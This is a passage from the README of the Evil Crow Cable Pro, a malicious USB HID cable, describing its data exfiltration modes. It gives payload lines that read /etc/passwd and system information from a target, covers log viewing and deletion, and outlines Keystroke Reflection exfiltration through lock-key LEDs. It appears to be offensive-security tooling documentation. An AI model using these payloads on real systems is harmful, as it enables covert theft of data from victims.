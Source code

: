 ## Data exfiltration

Set #define EXFIL true in config.h to enable data exfiltration.
Use exfilWin(command), exfilNix(command) or exfiMac(command) in payload.h. For example:

* exfilWin("systeminfo");
* exfilNix("cat /etc/passwd");
* exfilMac("whoami");

![ExfilPayload](https://github.com/joelsernamoreno/EvilCrowCable-Pro/blob/main/images/exfilpayload.png)

## Data exfiltration viewlog

Configure #define EXFIL_VIEWLOG true in config.h. Flash the firmware in Evil Crow Cable Pro, open serial monitor and wait 10 seconds. 

Example:

delay(2000);
exfilNix("whoami");
delay(3000);
exfilNix("cat /etc/passwd");

![ExfilView](https://github.com/joelsernamoreno/EvilCrowCable-Pro/blob/main/images/exfilviewlog.png)

## Data exfiltration deletelog

Configure #define EXFIL_DELETELOG true in config.h. Flash the firmware in Evil Crow Cable Pro, open serial monitor and wait 5 seconds. 

![ExfilDelete](https://github.com/joelsernamoreno/EvilCrowCable-Pro/blob/main/images/exfildeletelog.png)

## Keystroke Reflection

Keystroke Reflection is a new side-channel exfiltration technique developed by Hak5.

**Paper:** https://cdn.shopify.com/s/files/1/0068/2142/files/hak5-whitepaper-keystroke-reflection.pdf?v=1659317977

Evil Crow Cable Pro features a USB HID OUT endpoint which may accept control codes for the purposes of toggling the lock key LED indicators.

By taking advantage of this architecture, the Evil Crow Cable Pro may glean sensitive data by means of Keystroke Reflection, using the lock keys as an exfiltration pathway.

The Keystroke Reflection attack consists of two phases. In the first phase the data of interest, or "loot", is gathered from the target and encoded as lock keystrokes for reflection.

In the second phase, the Evil Crow Cable Pro enters Exfil Mode where it will act as a control code listener on the HID OUT endpoint. Then, the target reflects the encoded lock keystrokes.

Configure Keystroke Reflection in Evil Crow Cable Pro:

1. Edit firmware.ino and uncomment the following line:
